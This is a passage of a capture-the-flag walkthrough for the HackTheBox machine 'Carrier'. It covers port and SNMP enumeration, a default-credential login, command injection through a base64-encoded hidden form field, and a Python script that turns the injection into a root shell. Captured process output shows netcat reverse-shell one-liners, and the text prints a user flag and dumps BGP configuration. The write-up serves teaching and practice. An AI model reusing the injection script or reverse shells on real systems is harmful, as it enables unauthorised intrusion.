







# Table of Contents:

- [Carrier](#carrier)
  - [Network Enum:](#network-enum)
  - [Exploit:](#exploit)
  - [Host Enum:](#host-enum)
  - [Root, But For Real This Time:](#root-but-for-real-this-time)

<!-- ToC generated using https://imthenachoman.github.io/nGitHubTOC/ -->

# Carrier

https://www.hackthebox.eu/home/machines/profile/155



## Network Enum:

Ran `nmap`:

```bash
root@kali:~/Desktop/10.10.10.105# nmap -p 1-65535 -A -T4 10.10.10.105
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-29 19:16 EST
Nmap scan report for 10.10.10.105
Host is up (0.22s latency).
Not shown: 65532 closed ports
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 15:a4:28:77:ee:13:07:06:34:09:86:fd:6f:cc:4c:e2 (RSA)
|   256 37:be:de:07:0f:10:bb:2b:b5:85:f7:9d:92:5e:83:25 (ECDSA)
|_  256 89:5a:ee:1c:22:02:d2:13:40:f2:45:2e:70:45:b0:c4 (ED25519)
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=12/29%OT=22%CT=1%CU=32542%PV=Y%DS=2%DC=T%G=Y%TM=5C2811
OS:46%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=A)SE
OS:Q(SP=103%GCD=1%ISR=10D%TI=Z%CI=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%
OS:O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2
OS:=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNS
OS:NW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   360.62 ms 10.10.12.1
2   497.47 ms 10.10.10.105

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 744.53 seconds

```

Examining the HTTP service with `nitko`:

```bash
root@kali:~/Desktop/10.10.10.105# nikto -h 10.10.10.105 -p 80
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.105
+ Target Hostname:    10.10.10.105
+ Target Port:        80
+ Start Time:         2018-12-30 21:32:00 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Cookie PHPSESSID created without the httponly flag
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3268: /doc/: Directory indexing found.
+ OSVDB-48: /doc/: The /doc/ directory is browsable. This may be /usr/doc.
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /tools/: Directory indexing found.
+ OSVDB-3092: /tools/: This might be interesting...
+ Server leaks inodes via ETags, header found with file /icons/README, fields: 0x13f4 0x438c034968a80 
+ OSVDB-3233: /icons/README: Apache default file found.
+ /debug/: Output from the phpinfo() function was found.
+ /debug/: Possible debug directory/program found.
+ 7506 requests: 6 error(s) and 15 item(s) reported on remote host
+ End Time:           2018-12-30 22:09:51 (GMT-5) (2271 seconds)
```

Here is the login page at `http://10.10.10.105`:



Looking into `/doc/` we see the following:



Here is `diagram_for_tac.png`:



and `error_codes.pdf`:



We now know that error `45009` means we have a user `admin` with a default password set. We need the chassis serial number? Scanning again with `nmap` but for `udp`.

```bash
root@kali:~/Desktop/10.10.10.105# nmap -p1-200 -sU -T4 10.10.10.105
Nmap scan report for 10.10.10.105
Host is up (0.30s latency).
Not shown: 188 closed ports
PORT    STATE         SERVICE
10/udp  open|filtered unknown
42/udp  open|filtered nameserver
44/udp  open|filtered mpm-flags
67/udp  open|filtered dhcps
99/udp  open|filtered metagram
114/udp open|filtered audionews
125/udp open|filtered locus-map
128/udp open|filtered gss-xlicen
131/udp open|filtered cisco-tna
136/udp open|filtered profile
161/udp open          snmp
178/udp open|filtered nextstep

Nmap done: 1 IP address (1 host up) scanned in 196.55 seconds
root@kali:~/Desktop/10.10.10.105#
```

Enumerating SNMP protocol:

```bash
root@kali:~/Desktop/10.10.10.105# nmap 10.10.10.105 -Pn -sU -p 161 --script=snmp-brute
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-30 23:49 EST
Nmap scan report for 10.10.10.105
Host is up (0.31s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute: 
|_  public - Valid credentials

Nmap done: 1 IP address (1 host up) scanned in 10.52 seconds
root@kali:~/Desktop/10.10.10.105# onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 10.10.10.105
Scanning 1 hosts, 49 communities
10.10.10.105 [public] Host responded with error NO SUCH NAME
root@kali:~/Desktop/10.10.10.105# snmpwalk -c public 10.10.10.105 -v1
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
End of MIB
root@kali:~/Desktop/10.10.10.105#
```

Trying the credentials `admin` with password `NET_45JDX23` gets us a login! If we browse to the `http://10.10.10.105/diag.php` page and inspect the html, we see a hidden field:

```html
<input id="check" name="check" value="cXVhZ2dh" type="hidden">
```

The base64 decode of `cXVhZ2dh` is `quagga` which matches the output of the diagnostics button when we press it. If we change the value to `bash` base64 encoded, we get the following:



We now have remote code execution! 

## Exploit:

Lets see who we are by base 64 encoding the following: `bash; whoami; ls -la`. Here is what we got:

```bash
  root       2131  0.0  0.0  11236  1600 ?        Ss   06:17   0:00 bash -c ps waux | grep quagga;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.12.114 4444 >/tmp/f  | grep -v grep
  root      14418  0.0  0.1  11236  3060 ?        Ss   06:51   0:00 bash -c ps waux | grep root;rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.12.66 443 > f | grep -v grep
  root      14450  0.0  0.1  19896  3748 ?        S    06:56   0:00 bash -i
  root      14467  0.0  0.1  18216  3200 ?        S    06:57   0:00 bash -i
  root      15352  0.0  0.1  11232  3092 ?        Ss   07:41   0:00 bash -c ps waux | grep rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.16.2 443 > f | grep -v grep
  root      15453  0.0  0.1  11232  3036 ?        Ss   07:43   0:00 bash -c ps waux | grep rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.16.2 443 > f | grep -v grep
  root      15486  0.0  0.1  11232  2912 ?        Ss   07:44   0:00 bash -c ps waux | grep rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.16.2 443 > f | grep -v grep
  root      15519  0.0  0.1  11236  3040 ?        Ss   07:45   0:00 bash -c ps waux | grep ;rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.16.2 443 > f | grep -v grep
  root      15558  0.0  0.1  11236  2916 ?        Ss   07:45   0:00 bash -c ps waux | grep ;rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.16.2 443 > f | grep -v grep
  root      15699  0.0  0.1  11232  3048 ?        Ss   07:57   0:00 bash -c ps waux | grep bash; whoami; ls -la | grep -v grep
  root      15701  0.0  0.0  12944   940 ?        S    07:57   0:00 grep bash
  root
  total 36
  drwx------ 1 root root  198 Dec 31 07:45 .
  drwxr-xr-x 1 root root  134 Dec 31 06:37 ..
  -rw-r--r-- 1 root root 3121 Jul  2 19:33 .bashrc
  drwx------ 1 root root   40 Jul  2 01:02 .cache
  -rwxr-xr-x 1 root root  207 Dec 31 06:56 car
  -rwxr-xr-x 1 root root  123 Dec 31 06:54 carrier
  prw-r--r-- 1 root root    0 Dec 31 07:45 f
  drwxr-xr-x 1 root root    0 Jul  2 16:40 .nano
  -rw-r--r-- 1 root root  148 Aug 17  2015 .profile
  -rw-r--r-- 1 root root   66 Jul  2 16:40 .selected_editor
  drwx------ 1 root root   36 Dec 31 06:37 .ssh
  -rw-r--r-- 1 root root    0 Jul  3 04:03 test_intercept.pcap
  -rw-r--r-- 1 root root   33 Jul  2 01:03 user.txt
  -rw------- 1 root root 5119 Dec 31 07:26 .viminfo
  -rwxr-xr-x 1 root root  394 Dec 31 07:25 YMvePcT
```

BAMN that's root. Lets make a shell based off our session ID and this php remote code execution:

```python
import re
import base64
import requests

USERNAME = 'admin'
PASSWORD = 'NET_45JDX23'

# login
s = requests.session()
d = {
  'username': USERNAME,
  'password': PASSWORD
}
r = s.post('http://10.10.10.105/index.php', data=d)
#print(r.text)
print(s.cookies)
while True:
  x = raw_input('# ')
  if x == 'exit':
    break
  print('[+] Running command: {0}'.format(x))
  d = {
    'check': base64.b64encode('xxxxxxxxx; {0}'.format(x))
  }
  r = s.post('http://10.10.10.105/diag.php', data=d)
  lines = re.findall(r'<p>(.*?)</p>', r.text)
  for i in range(len(lines)):
    # ignore the first 3 lines
    if i > 2:
      print(lines[i])
```

Running this script, we get the following:

```bash
root@kali:~/Desktop/10.10.10.105# python exploit.py 
<RequestsCookieJar[<Cookie PHPSESSID=7ijhga86pg3mgevvpq5aolujv3 for 10.10.10.105/>]>
# pwd
[+] Running command: pwd
/root
# whoami
[+] Running command: whoami
root
# ls -la
[+] Running command: ls -la
total 24
drwx------ 1 root root  162 Jul  3  2018 .
drwxr-xr-x 1 root root  140 Jun 22  2018 ..
-rw-r--r-- 1 root root 3121 Jul  2  2018 .bashrc
drwx------ 1 root root   40 Jul  2  2018 .cache
drwxr-xr-x 1 root root    0 Jul  2  2018 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   66 Jul  2  2018 .selected_editor
drwx------ 1 root root   52 Jul  2  2018 .ssh
-rw-r--r-- 1 root root    0 Jul  3  2018 test_intercept.pcap
-rw-r--r-- 1 root root   33 Jul  2  2018 user.txt
-rw------- 1 root root 5120 Jul  3  2018 .viminfo
# cat user.txt
[+] Running command: cat user.txt
5649c41df59fd6efdc4a78d79a07f2be
# exit
root@kali:~/Desktop/10.10.10.105#
```

This gets us **user** but not **root**… But we are `root`? 

## Host Enum:

Lets enum the system some more. If we look at processess running, we see weird ones:

```bash
# ps -aux
[+] Running command: ps -aux
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  0.3  0.2  37624  5616 ?        Ss   02:30   0:02 /sbin/init
root         58  0.0  0.1  35272  3572 ?        Ss   02:30   0:00 /lib/systemd/systemd-journald
root         62  0.1  0.1  41720  3024 ?        Ss   02:30   0:01 /lib/systemd/systemd-udevd
daemon      475  0.0  0.0  26044  1956 ?        Ss   02:30   0:00 /usr/sbin/atd -f
root        478  0.0  0.1  28544  3064 ?        Ss   02:30   0:00 /lib/systemd/systemd-logind
root        480  0.0  0.1  27728  2312 ?        Ss   02:30   0:00 /usr/sbin/cron -f
root        481  0.0  0.2 274488  5720 ?        Ssl  02:30   0:00 /usr/lib/accountsservice/accounts-daemon
root        483  0.0  0.2  65508  6032 ?        Ss   02:30   0:00 /usr/sbin/sshd -D
message+    485  0.0  0.1  42896  3688 ?        Ss   02:30   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root        493  0.0  1.1 149968 24176 ?        Ssl  02:30   0:00 /usr/lib/snapd/snapd
root        498  0.0  0.0   5220   112 ?        Ss   02:30   0:00 /sbin/iscsid
root        499  0.0  0.1   5720  3528 ?        SLs  02:30   0:00 /sbin/iscsid
root        509  0.0  0.2 277176  5864 ?        Ssl  02:30   0:00 /usr/lib/policykit-1/polkitd --no-debug
root        517  0.0  0.0  14472  1628 console  Ss+  02:30   0:00 /sbin/agetty --noclear --keep-baud console 115200 38400 9600 linux
root        800  0.0  0.2  36684  4504 ?        Ss   02:33   0:00 /lib/systemd/systemd --user
root        801  0.0  0.0  61076  1700 ?        S    02:33   0:00 (sd-pam)
root        976  0.0  0.3  92796  7040 ?        Ss   02:35   0:00 sshd: root@notty
root       1009  0.0  0.1  19912  3772 ?        S    02:35   0:00 bash -i
root       1027  0.0  0.0   1092   792 ?        S    02:36   0:00 /tmp/fMyfJ
root       1117  0.0  0.0   4504   704 ?        S    02:36   0:00 /bin/sh -c /bin/sh
root       1118  0.0  0.0   4504  1608 ?        S    02:36   0:00 /bin/sh
root       1119  0.0  0.3  92796  6820 ?        Ss   02:36   0:00 sshd: root@notty
root       1171  0.0  0.0   6536   684 ?        S    02:36   0:00 ping 8.8.8.8
root       1368  0.0  0.3  92796  6760 ?        Ss   02:38   0:00 sshd: root@notty
root       1401  0.0  0.0   6536   712 ?        S    02:38   0:00 ping 8.8.8.8
root       1404  0.1  0.5 107284 10592 ?        Sl   02:39   0:00 python3 randomz.py
quagga     1612  0.0  0.0  24500   612 ?        Ss   02:40   0:00 /usr/lib/quagga/zebra --daemon -A 127.0.0.1
quagga     1616  0.0  0.1  29444  3728 ?        Ss   02:40   0:00 /usr/lib/quagga/bgpd --daemon -A 127.0.0.1
root       1621  0.0  0.0  15432   164 ?        Ss   02:40   0:00 /usr/lib/quagga/watchquagga --daemon zebra bgpd
root       1657  0.0  0.3  92796  6900 ?        Ss   02:40   0:00 sshd: root@notty
root       1690  0.0  0.1  36084  3316 ?        R    02:40   0:00 ps -aux
```

We see these weird processes called `zebra`, `bgpd`, and `quagga`. Some googleing gets us this: https://www.quagga.net/. So we look for configuration files in `/etc/quagga` to see how these services are configured:

```bash
# ls -la /etc/quagga/
[+] Running command: ls -la /etc/quagga/
total 32
drwxrwxr-x 1 quagga quaggavty  186 Jul  2  2018 .
drwxr-xr-x 1 root   root      2988 Jul  2  2018 ..
-rw-r----- 1 quagga quagga     410 Feb 18 02:40 bgpd.conf
-rw-r----- 1 root   root       410 Jul  2  2018 bgpd.conf.orig
-rw-r----- 1 quagga quagga     264 Jul  2  2018 bgpd.conf.sav
-rw-r----- 1 quagga quagga     992 Jul  1  2018 daemons
-rw-r----- 1 quagga quagga     945 Feb  8  2018 debian.conf
-rw-r----- 1 quagga quagga     289 Feb 18 02:40 zebra.conf
-rw-r----- 1 root   root       289 Jul  2  2018 zebra.conf.orig
-rw-r----- 1 quagga quagga     326 Jul  2  2018 zebra.conf.sav
```

Lets see what these configuration files say:

```bash
# cat /etc/quagga/bgpd.conf.sav
[+] Running command: cat /etc/quagga/bgpd.conf.sav
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:12
!
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.11.2 remote-as 300
!
line vty
!
# cat /etc/quagga/bgpd.conf.orig
[+] Running command: cat /etc/quagga/bgpd.conf.orig
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:27
!
route-map to-as200 permit 10
route-map to-as300 permit 10
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 route-map to-as300 out
!
line vty
!
# cat /etc/quagga/bgpd.conf
[+] Running command: cat /etc/quagga/bgpd.conf
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:27
!
route-map to-as200 permit 10
route-map to-as300 permit 10
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 route-map to-as300 out
!
line vty
!
# cat /etc/quagga/zebra.conf.sav
[+] Running command: cat /etc/quagga/zebra.conf.sav
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:12
!
!
interface eth0
 no link-detect
 ipv6 nd suppress-ra
!
interface eth1
 no link-detect
 ipv6 nd suppress-ra
!
interface eth2
 no link-detect
 ipv6 nd suppress-ra
!
interface lo
 no link-detect
!
ip forwarding
!
line vty
!
# cat /etc/quagga/zebra.conf.orig
[+] Running command: cat /etc/quagga/zebra.conf.orig
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:27
!
!
interface eth0
 no link-detect
 ipv6 nd suppress-ra
!
interface eth1
 no link-detect
 ipv6 nd suppress-ra
!
interface eth2
 no link-detect
 ipv6 nd suppress-ra
!
interface lo
 no link-detect
!
ip forwarding
!
line vty
!
# cat /etc/quagga/zebra.conf
[+] Running command: cat /etc/quagga/zebra.conf
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:27
!
!
interface eth0
 no link-detect
 ipv6 nd suppress-ra
!
interface eth1
 no link-detect
 ipv6 nd suppress-ra
!
interface eth2
 no link-detect
 ipv6 nd suppress-ra
!
interface lo
 no link-detect
!
ip forwarding
!
line vty
!
```

Why are there original and save versions of each file? likely a cron job to keep a consistent state in the VM? here is what we see:

```bash
# crontab -l
[+] Running command: crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
